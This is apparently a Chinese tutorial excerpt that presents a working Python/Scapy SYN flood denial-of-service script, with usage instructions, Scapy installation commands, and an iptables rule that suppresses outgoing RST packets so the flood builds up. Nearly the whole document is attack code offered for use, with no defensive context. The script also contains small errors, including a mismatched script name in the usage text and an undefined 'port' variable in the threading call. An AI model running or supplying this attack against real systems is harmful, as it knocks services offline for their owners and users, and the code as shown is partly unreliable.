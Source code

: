 

#### 脚本实现syn_flood攻击

攻击脚本：**syn_flood.py**

```python
#!/usr/bin/python
from scapy.all import *
from time import sleep
import _thread
import random
import logging
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:
  print("Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]");
  print("Example - ./sock_stress.py 10.0.0.5 80 20");
  print("Example will perform a 20x multi-threaded SYN flood attack");
  print("against the HTTP (port 80) service on 10.0.0.5");
  sys.exit()
target = str(sys.argv[1])
lport = int(sys.argv[2])
threads = int(sys.argv[3])
print("Performing SYN flood. Use Ctrl+C to stop attack.");
def synflood(target,port):
  while 0 == 0:
    x = random.randint(0,65535);
    send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0);
		
for x in range(0, threads):
  _thread.start_new_thread(synflood, (target, port))
while 0 == 0:
  sleep(1)
```

环境准备：

```
#给予程序执行权限
chmod +x syn_flood.py

# 安装Scapy到Debian, Ubuntu或Linux Mint 或kali
apt-get install python3-scapy

# 安装Scapy到Fedora或CentOS/RHEL
yum install scapy

说明：在CentOS/RHEL上，你首先需要启用EPEL仓库

# 防火墙需要进行配置，阻止RST包发出
iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.70.3 -j DROP
说明：发一个包释放一个连接，这种达不到攻击郊果。要构成攻击效果可以通过iptables限止发送RST包。

```
